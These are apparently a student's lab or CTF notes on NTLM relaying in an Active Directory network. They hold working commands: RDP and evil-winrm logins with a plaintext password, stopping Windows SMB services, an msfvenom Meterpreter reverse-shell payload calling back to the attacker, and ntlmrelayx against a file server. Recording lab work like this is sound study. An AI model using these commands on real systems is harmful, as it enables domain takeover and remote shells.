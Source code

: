 
```
DC-SRV01
10.201.11.30
```

```
S-SRV02
10.201.11.32
```
I will see how can i craft a NTLM so that i could catch it.


Let's get the RDP for 10.201.11.35
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'Sardarji' /p:'Password123!'
```


And will check if we have the access to the SMB this way
```
\\10.201.11.30
```
![[Pasted image 20240907153943.png]]


```
\\10.201.11.32
```
![[Pasted image 20240907154138.png]]

I also tend to check for ping 
![[Pasted image 20240907164157.png]]

So it's clear that one is refusing and one is not so the victim will be 10.201.11.30
But let's see how NTLM works as i didn't know how the algo works like i now we can only relay it but cannot replay it.

Now that we understand what an NTLM hash is and how it is hashed, we can look at how it responds and requests and why it can only be relayed and not replayed.

```
evil-winrm -u Sardarji -p 'Password123!' -i 10.201.11.35 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network 
```


 Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion


If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise: 
- the File Server, 
- gain local Administrative Rights, 
and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it’s game over.

https://blog.spookysec.net/remote-ntlm-relaying/

```
sc stop netlogon
```

```
sc stop lanmanserver
```

```
sc config lanmanserver start= disabled
```

```
sc stop lanmanworkstation
```

```
sc config lanmanworkstation start= disabled
```

![[Pasted image 20240907170321.png]]

RESTART THE MACHINE


Now we have to configure the meterpreter shell through MSF console.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe > meterpreter_shell.exe
```


Setup up the multi handler and run it 


After than run the NTLMrelayx.py

```
sudo ntlmrelayx.py -t smb://10.201.11.30 -smb2support -socks
```